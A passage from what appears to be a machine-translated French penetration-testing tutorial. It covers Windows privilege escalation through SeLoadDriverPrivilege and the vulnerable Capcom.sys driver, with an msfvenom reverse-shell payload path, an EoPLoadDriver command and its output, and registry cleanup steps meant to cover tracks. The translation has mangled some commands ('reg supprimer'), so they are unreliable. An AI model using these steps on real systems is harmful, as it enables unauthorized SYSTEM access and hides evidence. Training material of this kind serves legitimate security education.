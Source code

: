 Code : c

```
  TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");

```

Nous configurerions un écouteur basé sur la charge utile `msfvenom` que nous avons générée et, espérons-le, recevrons une connexion shell inversée lors de l'exécution de `ExploitCapcom.exe`. Si une connexion shell inversée est bloquée pour une raison quelconque, nous pouvons essayer un shell de liaison ou une charge utile exec/add user.

* * * * *

Automatisation des étapes
--------------------

#### Automatisation avec EopLoadDriver

Nous pouvons utiliser un outil tel que [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) pour automatiser le processus d'activation du privilège, de création de la clé de registre et d'exécution de `NTLoadDriver` pour charger le pilote. Pour ce faire, nous exécuterions ce qui suit :

Automatisation avec EopLoadDriver

```
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Activation de SeLoadDriverPrivilege
[+] SeLoadDriverPrivilège activé
[+] Chargement du pilote : \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS : c000010e, erreur Win : 0

```

Nous exécutons ensuite `ExploitCapcom.exe` pour afficher un shell SYSTEM ou exécuter notre binaire personnalisé.

* * * * *

Nettoyer
--------

#### Suppression de la clé de registre

Nous pouvons brouiller un peu nos pistes en supprimant la clé de registre ajoutée précédemment.

Suppression de la clé de registre

```
C:\htb> reg supprimer HKCU\System\CurrentControlSet\Capcom

Supprimer définitivement la clé de registre HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Oui/Non) ? Oui

L'opération s'est bien déroulée.

```

Remarque : Depuis Windows 10 Version 1803, le "SeLoadDriverPrivilege" n'est pas exploitable, car il n'est plus possible d'inclure des références aux clés de registre sous "HKEY_CURRENT_USER".